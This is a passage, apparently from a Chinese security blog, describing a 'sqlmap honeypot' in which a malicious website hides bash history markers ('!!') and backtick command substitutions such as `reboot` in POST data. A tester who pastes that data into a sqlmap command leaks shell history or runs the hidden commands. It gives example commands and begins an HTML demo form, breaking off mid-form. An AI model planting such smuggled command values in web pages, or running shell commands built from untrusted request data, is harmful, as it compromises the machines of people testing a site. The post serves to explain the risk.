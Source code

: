 如ping “!!”,ping “`reboot`”，看看会产生怎样神奇的效果

说的明白点，双引号中的”!!”或者”!+数字”，会替换成历史命令，执行”history”命令,就可以知道哪些数字对应哪些命令了。如果我将”!”放入到http请求中，而渗透测试人员执行例如

  * 

    
    
    bash# sqlmap -u "www.asnine.com/test" --data"post!!request=hacked"

首先双引号中的!!会被替换成你最近执行的一条历史命令，然后在发送到webserver，如果webserver是恶意的，那么他就可以轻松的收集到你的bash中的历史输入了，也算是一种信息泄露吧。

如果仅仅是信息收集，危害还小一些，如果用”`”(数字1前面那个反单引号字符)，可就厉害了。任何”`”之间的命令，都会被执行，如果仅仅是为了好玩，一个reboot，就够你受了，但是如果还有其他的想法，你的系统可就危在旦夕了

如果我将这些特殊的字符(“!” ,
“`”…)放到get/post/cookie等http请求参数中，万一有人用sqlmap去对该网站进行安全测试，而注入参数正好包含了这些特殊字符，那么有意思的事情就产生了

此时，你通过拦截浏览器获取的http post如果是恶意代码

执行：

  * 

    
    
    sqlmap –u "http://sample.com/a=xxx&b=xxx" –data "evilcode"

结果就是，装逼不成反被BI～

## Par2：姑且称之为sqlmap honeypot吧

现在，我的目的很单纯，就是将特殊字符嵌入到http的请求数据中，以达到对渗透人员的反戈一击。

要做到一个强力的反击，首先需要将诸如”!”, “`”等字符串，放入http请求中。

而http请求，主要包括get request,cookie,post request三种。

大多时候，渗透人员通过获取post数据作为sql的注入点，所以，要找到一种在post情况下的危险参数注入。

由于post数据，可以构造的相对比较复杂，很多时候，渗透人员只是将所有参数一股脑的作为sqlmap的data参数进行测试，所以可以很好的做到将危险参数嵌入到post
data数据中，以达到隐藏自身的目的。

接下来，要做的就是如果渗透人员在通过利用例如Burp Suite等工具获取sqlmap注入使用的参数时，获取到的字符为未编码的可见字符。

在用form进行提交数据时，如果添加enctype=”text/plain”属性，那么，就可以做到可见即可得。

测试demo：

    
    
    <html>
    
    <head>
    
    <title> A sqlmap honeypot demo</title>
    
    </head>
    
    <body>
    
    <input>search the user</input>
    
    <form id="myForm" action="username.html" method="post" enctype="text/plain">
    
